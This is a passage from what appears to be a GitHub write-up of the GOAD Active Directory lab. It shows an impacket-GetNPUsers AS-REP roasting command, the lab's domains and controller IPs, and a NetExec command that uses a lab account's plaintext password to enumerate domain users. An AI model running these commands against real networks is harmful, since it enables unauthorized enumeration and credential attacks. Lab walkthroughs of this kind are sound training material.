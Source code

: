 ##### a. impacket-GetNPUsers

The impacket command looks as follows

```r
impacket-GetNPUsers -dc-ip <IP> '<DOMAIN>/' -no-pass -usersfile users.txt
```

It means what is required are 
- domains  
- domain controller IPs  
- A list of users.

The 3 domains and their respective IP addresses are
```r
sevenkingdoms.local
	domain controller IP is 192.168.56.10
north.sevenkingdoms.local
	domain controller IP is 192.168.56.11
essos.local
	domain controller IP is 192.168.56.12
```

Since the `jeor.mormont` account can log onto all 5 hosts...

<div align="center" ><img width='100%' src='https://raw.githubusercontent.com/quincyntuli/Goad-Write-Up/main/img/10-Jeor-Mormont-can-logon-to-all.png'><br><ins>Jeor Mormont can log on to all 5 hosts</ins></div>

Then, the account is used to dump usernames to users.txt

```bash
nxc smb 192.168.56.0/24 -u 'NORTH\jeor.mormont' -p '_L0ngCl@w_' --users | tee users.txt
```
